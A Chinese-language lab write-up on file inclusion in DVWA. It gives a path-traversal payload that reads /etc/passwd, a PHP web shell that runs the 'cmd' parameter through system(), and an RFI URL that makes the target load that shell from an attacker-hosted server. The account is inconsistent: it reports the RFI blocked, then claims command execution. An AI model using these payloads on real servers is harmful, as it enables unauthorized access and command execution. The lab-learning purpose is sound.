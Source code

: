 ## 一、文件包含漏洞(File Inclusion)
### 1.1 攻击逻辑
- 利用服务器“偷懒”，有些网页为了方便，直接根据URL里的参数去读取服务器上某个文件并显示出来，可以读取敏感文件
### 1.2 文件包含分类
- 本地文件包含(LFI)：读取服务器本地的敏感文件
- 远程文件包含(RFL)：让服务器加载并执行一个放在别处(如Kali攻击机上)的恶意脚本。一旦成功，效果和上传Web Shell一样，直接控制服务器
## 二、本地文件包含(LFI)信息窃取
- DVWA中切换到File Inclusion菜单
- 构造LFI Payload：
   - 目标是读取`/etc/passwd`文件，这里存放Linux系统用户列表的文件
   - 需要用`../`字符串来跳出当前目录，一层层返回到根目录
   - 最终Payload：`../../../../../../../../etc/passwd`
   - 最终URL：`http://192.168.174.130/dvwa/vulnerabilities/fi/?page=../../../../../../../../etc/passwd`
   - 结果：在网页看到`/etc/passwd`文件的全部内容，此文件是服务器的“用户登记表”。
   - 看第一行`root:x:0:0:root:/root:/bin/bash`，用户名是`root`；密码占位符是`x`：真密码被加密后存在更安全的文件里；用户ID(UID)是`0`:0是超级管理员的专属号码；用户组ID(GID)是`0`；用户描述是`root`；家目录是`/root`，root用户登录后，默认待在/root这个文件夹里；登陆后用的程序`/bin/bash`，root用户登录后，系统会启动/bin/bash这个程序让他输入命令
<img width="1367" height="363" alt="image" src="https://github.com/user-attachments/assets/f2963ff8-7268-4e5f-978b-6b96b9dc6825" />

## 三、远程文件包含(RFI)获取控制权
-  准备武器(Web Shell)：`shell.php`
```
<?php
   if (isset($_REQUEST['cmd'])) {
      echo "<pre>";
      $cmd = ($_request['cmd']);
      system($cmd);
      echo "</pre>";
      die;
    }
?>
```
- 架设"军火库"(Web服务器)：
   - 为了让DVWA服务器能访问到`shell.php`，选哟在Kali上启动一个临时的Web服务器
   - 在Kali中，打开新终端，进入到`shell.php`所在的目录(桌面)，执行`python3 -m http.server 8000`，启动一个监听在`8000`端口的Web服务器
- 构造RFI Payload：
   - 让`page`参数去加载一个远程地址，即刚刚架设号的Web服务器上的`shell.php`
   - 最终Payload：`http://192.168.174.129:8000/shell.php`
- 最终攻击:
   - 浏览器地址栏`page=`后门的内容，替换成RFI Payload，最终URL：`http://192.168.174.130/dvwa/vulnerabilities/fi/?page=http://192.168.174.129:8000/shell.php`
   - 观察Pyhton服务器终端，原本应该会看到访问日志，证明DVWA服务器下载了`shell.php`，但是发现DVWA的保护机制，不允许执行来自外部网站的代码，抵挡了我的RFI攻击
<img width="1377" height="617" alt="image" src="https://github.com/user-attachments/assets/a424617b-f853-48e9-927b-0f36bd1d4ef1" />

- 验证控制权(思路)：
   - 在URL后加上`&cmd=`参数来执行命令
   - `http://192.168.174.130/dvwa/vulnerabilities/fi/?page=http://192.168.174.129:8000/shell.php&cmd=whoami`，网页显示`www-data`，证明通过RFI漏洞，成功在服务器上执行了任意命令。
## 四、总结
- `shell.php`功能：接收cmd参数，然后用system()函数去执行它
